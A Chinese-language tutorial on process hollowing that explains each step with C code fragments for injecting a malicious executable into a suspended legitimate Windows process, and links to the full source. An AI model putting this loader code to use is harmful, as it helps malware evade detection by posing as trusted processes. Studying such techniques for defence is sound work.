

# Process Hollowing

## Process Hollowing简介

进程镂空是一种防御规避的进程注入技术,主要思想是卸载合法进程的内存，写入恶意软件的代码，伪装成合法进程进行恶意活动。



## 执行流程

1. 创建一个挂起的合法进程
2. 读取恶意软件的代码
3. 获取挂起进程上下文与环境信息
4. 卸载挂起进程内存
5. 写入恶意软件代码
6. 恢复挂起进程

## 代码实现

### 1.创建一个挂起的合法进程

```text
	BOOL bRet = CreateProcessA(
		NULL,
		(LPSTR)"cmd",
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED,
		NULL,
		NULL,
		&si,
		&pi);
```

### 2.读取恶意软件的代码

```text
	hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
	FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE); 
	ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
	CloseHandle(hFile);
```

### 3.获取挂起进程上下文与环境信息

 **进程环境块**（**PEB**）是 Windows NT操作系统内部使用的数据结构，用以存储每个进程的运行时数据，每个进程又有一个独立且由操作系统进行维护的PEB。

挂起创建的进程的EBX&RDX寄存器存储着PEB,而PEB内存储着进程的实际加载地址。

```text

	GetThreadContext(pi.hThread, &ctx); //获取挂起进程上下文

#ifdef _WIN64
	ReadVirtualMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
	// 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
	// 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
	ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL); 
#endif
```

### 4.卸载挂起进程内存

如果恶意软件预期加载地址被占用，就使用ntdll内的NtUnmapViewOfSection函数卸载软件内存,该函数也是freelibrary等函数真正卸载内存使用的函数。

```text
	//判断文件预期加载地址是否被占用
	pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
	if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase) 
	{
		NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
	}
```

### 5.写入恶意软件代码

将恶意软件写入合法进程的空间,先写入文件头后逐段写入。

```text

	//为可执行映像分配内存,并写入文件头
	RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); 
	WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL); 

	//逐段写入
	for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
	{
		pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL); 
	}

```

### 6.恢复挂起进程

挂起创建的进程rcx&eax内存储着软件的入口点,需要将PEB内的实际加载地址修改为恶意软件预期的加载地址。

```text
//将rcx寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _WIN64
	ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); 
	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif

	//将eax寄存器设置为注入软件的入口点,并将预期加载地址修改为实际加载地址
#ifdef _X86_
	ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint); // Set the eax register to the entry point of the injected FileImage

	WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL); 
#endif


	SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
	ResumeThread(pi.hThread); // 恢复挂起线程

```

#### \* 实现效果


## 完整代码

* github:[https://github.com/idiotc4t/ProcessHollow.git](https://github.com/idiotc4t/ProcessHollow.git)

## LINKS






